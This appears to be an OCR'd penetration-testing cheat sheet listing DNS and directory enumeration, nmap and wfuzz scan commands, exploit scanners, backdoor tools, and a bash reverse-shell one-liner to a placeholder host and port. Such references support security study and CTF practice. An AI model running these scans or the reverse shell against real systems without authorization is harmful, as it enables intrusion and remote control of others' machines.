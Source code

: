   - DNS Enumeration
    - dnsenum
    - knockpy.py
    - [dnsdumpster](https://dnsdumpster.com/)

- Site Enumeration
  - Port Scanning

    | Usage | Description |
    |:------|:------------|
    | `$ nmap -A ${host:?}` | Scan with default setting. |
    | `$ nmap --script "http-*" -p 80 ${host:?}` | Scan HTTP service. |
    | `$ nmap -v -T5 -sS -n -p- ${host:?}` | Scan all ports. |

  - Directory Enumeration

    | Usage | Description |
    |:------|:------------|
    | `$ dirsearch -r -u ${url:?}`
    | `$ dirbuster` |
    | `$ dirb ${url:?} ${wordlist}` |
    | `$ gobuster dir --url ${url:?} --wordlist ${wordlist:-/usr/share/wordlists/dirb/common.txt} -t ${threads:-100}` | General scan. |
    | `$ wfuzz -c -z file,${wordlist:-/usr/share/wordlists/dirb/common.txt} -hc ${hidecode:-404} ${url:?}/FUZZ` |
    | `$ ffuf` |

  - Parameter Enumeration

    | Usage | Description |
    |:------|:------------|
    | `$ wfuzz -c -z file,${wordlist:?} -hl ${hideline:-BBB} ${url:?}/?FUZZ{<arg1>}=,FUZ2Z{<arg2>}=` | Hide all results with same line count to the result queried by parameter <arg1> and <arg2>. |

  - Dumper
    - git-dumper

### Exploit
- Burpsuit
- c-jwt-cracker
- [Exploit DB](https://www.exploit-db.com/)
- Scanner
  - nikto
  - sqlmap
  - xsser
  - ZAP

### Payload
- Backdoor
  - weevely
  - veil
  - BeEF
- Reverse Shell
  - `$ bash -c "/bin/sh -i >& /dev/tcp/${HOST}/${PORT} 0<&1"`
  - [reverse ICMP shell (icmpsh)](https://github.com/bdamele/icmpsh)
